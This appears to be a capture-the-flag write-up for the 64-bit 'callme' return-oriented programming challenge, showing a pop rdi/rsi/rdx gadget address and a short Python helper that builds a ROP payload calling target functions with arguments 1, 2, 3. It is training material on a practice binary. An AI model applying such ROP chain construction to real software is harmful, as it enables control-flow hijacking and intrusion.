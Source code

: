 # callme - 64bit

Again, the 64-bit version is very similar to the [32-bit exploit](../32-bit/README.md)

In the same way we will require gadgets to put the parameters in the correct places.

Luckily we also have the same combined gadget:

```
0x0000000000401ab0 : pop rdi ; pop rsi ; pop rdx ; ret
```

The order of the function call will be slightly different to the 32-bit version as the parameters need to be in the registers before the function call is made

Therefore, the function call code looks like this:
```python
def call_function_x86(function):
    payload = b""

    # pop rdi ; pop rsi ; pop rdx ; ret
    payload += pop_gadget 
    payload += p64(1)
    payload += p64(2)
    payload += p64(3)
    payload += function
    return payload
```

This function is repeated for each of the required methods.